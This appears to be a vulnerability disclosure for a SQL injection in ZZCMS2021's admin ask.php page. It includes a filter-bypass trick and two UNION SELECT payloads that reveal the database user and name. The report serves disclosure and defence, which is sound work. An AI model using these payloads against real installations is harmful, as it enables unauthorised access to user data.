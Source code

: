 # ZZCMS2021 

Profile
-----
    ZZCMS2021 has a SQL injection vulnerability that allows an attacker to access /admin/ask.php?The askBigClassid parameter on the do=add page retrieves sensitive data, causing sensitive information leakage of users.

Location
----
    http://ip/admin/ask.php?do=add

Affected Products
----
    ZZCMS2021

Proof
----
1.Request the page as normal and get the response

![](https://github.com/Boomingjacob/ZZCMS/blob/main/1.jpg)
2.If the invalid character "select" is used, the response will report an error

![](https://github.com/Boomingjacob/ZZCMS/blob/main/2.jpg)

3.Use the c=siteconfig.php parameter in the request path to bypass sensitive strings such as select
Payload：askbigclassid=-1+union+select+user(),2,3,4,5,6,7,8,9,10,11
Query the current user name: root

![](https://github.com/Boomingjacob/ZZCMS/blob/main/3.jpg)

4.Payload：askbigclassid=-1+union+select+database(),2,3,4,5,6,7,8,9,10,11
Query the current database name: ZZCMS

![](https://github.com/Boomingjacob/ZZCMS/blob/main/4.jpg)

